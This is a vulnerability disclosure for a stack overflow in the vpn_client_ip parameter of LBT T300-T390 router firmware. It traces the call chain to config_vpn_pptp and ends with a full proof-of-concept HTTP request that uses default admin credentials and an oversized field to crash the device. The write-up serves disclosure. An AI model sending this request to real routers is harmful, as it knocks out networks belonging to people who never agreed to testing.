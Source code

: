 # LBT router config_vpn_pptp function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T-T390 were discovered to contain a stack overflow via the vpn_client_ip parameter in the config_vpn_pptp function.

## Vulnerability Details

The calling process of this overflow function is as follows. The vpn_client_ip variable in the config_vpn_pptp function in the Rc program has a stack overflow. The rc program is started through its symbolic link init. The variable is obtained through the system NVRAM_GEtails
T function. The attacker can modify the request packet parameters through the VPN_PPTP.asp page. Incoming, ultimately causing a server denial attack.

The calling process of the overflow function is as follows:

Main()-> sub_40BEB8()-> start_single_service()->connect_vpn()->start_vpn_pptp()->config_vpn_pptp()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/3b72c78c-67f3-40c3-a495-3011c66759ec)
![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/fac6ee10-294a-45e0-ba16-40494f114270)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 911
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/VPN_PPTP.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

    submit_button=VPN_PPTP&change_action=&vpn_pptp_auto=0&vpn_pptp_only=0&vpn_type=PPTP&vpn_pptp_enable=1&vpn_nat_enable=1&vpn_dns_enable=1&action=Apply&wb_pptp_enable=on&vpn_pptp_server=192.168.10.1&vpn_pptp_username=a&vpn_pptp_passwd=a&vpnc_auth=0&vpn_pptp_mppe=0&vpnc_stateful=0&vpn_pptp_mtu=1450&vpn_pptp_mru=1450&vpn_client_ip=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&vpn_pptp_redial_count=10&vpn_dst_enable=0&vpn_check_mode=0&web_vpn_nat_enable=on&web_vpn_dns_enable=on

